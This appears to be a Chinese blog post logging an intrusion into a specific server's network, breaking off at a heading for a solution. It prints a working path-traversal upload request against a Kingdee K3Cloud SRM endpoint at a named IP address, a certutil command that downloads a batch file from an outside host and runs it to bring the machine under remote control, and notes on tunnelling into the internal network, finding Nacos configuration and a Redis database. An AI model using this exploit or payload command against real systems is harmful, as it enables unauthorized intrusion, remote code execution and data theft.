 ```yaml
---
icon: pen-to-square
date: 2025-06-29
tags: 
title: 内网报告
category:
  - 项目
---
```

```http
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 59.45.53.150:9888
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=zsqxokga
Accept-Encoding: gzip
Content-Length: 276

--zsqxokga
Content-Disposition: form-data; name="dbId_v"

.
--zsqxokga
Content-Disposition: form-data; name="FID"

2022
--zsqxokga
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/ccc.txt"
Content-Type: text/plain

ccc

--zsqxokga--
```

生成马
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629095227.png)

上传成功
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629095206.png)

```bash
certutil.exe -urlcache -split -f http://110.42.44.69:8084/swt C:\Users\Public\run.bat && C:\Users\Public\run.bat
```
上线命令

建立隧道，扫描内网


内网nacos服务
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629100811.png)


在nacos配置文件中，发现内网redis数据库。
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250702003105.png)

## 重新搭建内网隧道
三天后，发现vshell失效，并且内网隧道搭建失败,具体原因如下
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250702005609.png)
启动隧道，尝试测试隧道

```bash
┌──(root㉿localhost)-[/etc]
└─# curl --socks5-hostname 120.46.10.222:6028 192.168.30.31/nacos
<head><title>文档已移动</title></head>
<body><h1>对象已移动</h1>可在<a HREF="./k3Cloud/Error.html">此处</a>找到该文档</body>
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250702005829.png)


## 解决方案